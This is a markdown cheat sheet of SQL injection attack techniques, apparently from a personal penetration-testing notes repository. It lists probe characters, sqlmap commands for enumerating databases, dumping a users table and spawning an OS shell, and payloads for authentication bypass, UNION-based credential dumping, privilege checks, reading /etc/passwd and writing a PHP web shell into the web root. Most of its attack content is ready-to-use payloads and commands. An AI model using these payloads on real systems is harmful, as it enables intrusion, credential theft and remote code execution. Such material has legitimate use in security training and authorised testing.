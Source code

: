# SQL Injections

SQL injection refers to attacks against relational databases. Most modern web applications utilize a database structure on the back-end. Such databases are used to store and retrieve data related to the web application, from actual web content to user information and content. 

When user-supplied information is used to construct the query to the database, malicious users can trick the query into being used for something other than what the original programmer intended.


# SQLi Discovery
### Payloads
``` 	
' 	
" 	
# 	
; 	
) 
```

## SQLMap

The easiest way to run it.

1) intercept request in burp.
2) right click 'copy to file'
3) Here file named tosql

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/d5e0080f-9148-467e-b731-d2a09289684b)

### Enumerate user, db

```
sqlmap -r tosql --banner --current-user --current-db --is-dba --batch
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/17061fd0-bc0e-4bd7-a935-289e61d41316)


### Enumerate tables

```
sqlmap -r tosql  --tables -D public
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/7c5a02e1-fa0d-4281-892f-a425df00e753)


### Dump table of interest
```
sqlmap -r tosql --dump -T users -D public
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/e670f1a5-9664-4523-9517-ac5d91ac3f1e)

### Spawn a shell

```
sqlmap -r tosql --os-shell
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/7707e8bc-3a1e-465f-b8ff-28ebf589e2f8)


## Examples

### Union box

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/df9e7367-c6f6-4ecb-a3cc-4adecc5d4682)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/93eec906-1c0e-4695-91e9-b890e734ad32)

```
' UNION select user();-- -
```



## CheatSheet
More comprehensive can be found Payloadallthethings
SQL Injection
Payload 	Description
### Auth Bypass 	
```
admin' or '1'='1 	Basic Auth Bypass
admin')-- - 	Basic Auth Bypass With comments
```
Auth Bypass Payloads 	
### Union Injection 	
```
' order by 1-- - 	Detect number of columns using order by
cn' UNION select 1,2,3-- - 	Detect number of columns using Union injection
cn' UNION select 1,@@version,3,4-- - 	Basic Union injection
UNION select username, 2, 3, 4 from passwords-- - 	Union injection for 4 columns
```
### DB Enumeration 	
```
SELECT @@version 	Fingerprint MySQL with query output
SELECT SLEEP(5) 	Fingerprint MySQL with no output
cn' UNION select 1,database(),2,3-- - 	Current database name
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- - 	List all databases
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- - 	List all tables in a specific database
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- - 	List all columns in a specific table
cn' UNION select 1, username, password, 4 from dev.credentials-- - 	Dump data from a table in another database
```
### Privileges 	
```
cn' UNION SELECT 1, user(), 3, 4-- - 	Find current user
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- - 	Find if user has admin privileges
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- - 	Find if all user privileges
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- - 	Find which directories can be accessed through MySQL
```
### File Injection 	
```
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- - 	Read local file
select 'file written successfully!' into outfile '/var/www/html/proof.txt' 	Write a string to a local file
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- - 	Write a web shell into the base web directory
```
